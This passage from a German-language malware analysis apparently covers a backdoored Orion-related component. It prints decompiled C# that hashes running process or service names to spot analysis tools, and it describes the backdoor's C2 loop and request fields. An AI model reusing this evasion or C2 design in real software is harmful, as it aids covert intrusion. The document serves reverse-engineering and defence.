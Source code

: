 ```C#
			{
				ManagementObjectEnumerator enumerator = val.Get().GetEnumerator();
				try
				{
					while (enumerator.MoveNext())
					{
																																								    	   //Deobfuscated: PathName
						ulong hash = GetHash(Path.GetFileName(((ManagementBaseObject)(ManagementObject)enumerator.get_Current()).get_Properties().get_Item(ZipHelper.Unzip("C0gsyfBLzE0FAA==")).get_Value()
							.ToString())!.ToLower());
						if (Array.IndexOf(configTimeStamps, hash) != -1)
						{
							return true;
						}
					}
				}
				finally
				{
					((IDisposable)enumerator)?.Dispose();
				}
			}
			finally
			{
				((IDisposable)val)?.Dispose();
			}
			return false;
		}
```

### Kernfunktionalität

Die Klasse HTTPHelper wird in einem zweiten Thread gestartet. Sie ist für die C2-Kommunikation und das Ausführen der C2-Befehle verantwortlich. Die aufgerufene Methode Initialize tut folgendes:

1. Senden eines HTTP-Request an einen C2-Server
2. Parsen der Rückantwort
3. Ausführen des Kommandos für die Rückantwort

### Senden des HTTP-Requests

Der HTTP-Request scheint folgende Informationen zu enthalten:

- Die anfangs erwähnte UserID
- Eine SessionID, die beim Erstellen des HTTPHelpers al zufällige GUID generiert wird.
- Ein Timestamp
- In Index, der bei jeder Ausführung der Methode hochgezählt wird.
- Ein Feld Eventtype, das auf orion hard coded ist.
- Ein Feld Eventname, das auf EventManager hardcoded ist.
- Ein Feld namens Succeeded, das auf true hard coded ist.
